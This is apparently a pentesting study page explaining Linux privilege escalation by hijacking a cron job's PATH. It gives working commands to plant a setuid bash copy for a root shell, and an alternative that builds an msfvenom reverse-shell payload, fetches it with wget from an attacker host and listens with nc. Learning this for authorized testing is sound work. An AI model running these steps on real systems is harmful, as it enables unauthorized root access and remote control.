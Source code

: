 ### **PATH Environment Variable**

In crontab, the default PATH environment variable is set to /usr/bin:/bin. However, this PATH can be overwritten within the crontab file. If a cron job script or program does not use an absolute path, and one of the directories in the PATH is writable by our user, we may be able to create a script or program with the same name as the cron job,This vulnerability allows us to run our own program/script instead of the intended cron job script, which could be exploited for various purposes.

### **Steps to Identify and Exploit PATH Environment Variable**

1.  Run LinPEAS to detect potential vulnerabilities, such as issues in the cron PATH.  
    
    ![](../../../../img/Linux-Environment/68.png) 
    
2.  We can Find where the overwrite.sh script is located using the find command:  
    `find / -iname overwrite.sh 2>/dev/null`  
    
    ![](../../../../img/Linux-Environment/69.png) 

    ??? info "NOTE"

        This indicates that overwrite.sh executes from the /usr/local/bin directory.
    
3.  Confirm that we have write permissions on the target directory:  
    `ls -la /home | grep "user"`  
    
    ![](../../../../img/Linux-Environment/70.png) 

    ??? info "NOTE"

        Here we see “w”, which means that we can write in this directory.
     
4.  To exploit this cron job, all we have to  craft a malicious payload named “overwrite.sh” and drop it in the /home/user/ folder.  
    `echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/rootme\nchmod +xs /tmp/rootme' > /home/user/overwrite.sh`
    
5.  In order for the cron job to execute our binary, Ensure the malicious script has execute permissions:  
    `chmod 755 /home/user/overwrite.sh`  

    ![](../../../../img/Linux-Environment/71.png) 
    
6.  Once the cron job has created and setuid rootbash, use it to open a shell with root privileges:  
    `/tmp/rootme -p`  
    
    ![](../../../../img/Linux-Environment/72.png) 
    
7.  Alternatively, use msfvenom to create a reverse shell payload:  
    `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.92.52 LPORT=1337 -a x64 -f elf -o overwrite.sh`  
    
    ![](../../../../img/Linux-Environment/73.png) 
    
8.  Now that our payload has been created, we can download it onto the target machine (check out FIle Transfer Section)  
    `wget http://[IP-ADRESS]:8000/overwrite.sh -O /home/user/overwrite.sh`  
    
    ![](../../../../img/Linux-Environment/74.png) 
    
9.  it is still not ready. In order for the cron job to execute our binary, we need to give is execute permissions.  
    `chmod 755 ./overwrite.sh`  
    
    ![](../../../../img/Linux-Environment/75.png) 
    
10. The payload is ready and should trigger every minute. All that is left to do is start a netcat listener on out attacker machine  
    `nc -lvnp 1337`  
    
    ![](../../../../img/Linux-Environment/76.png) 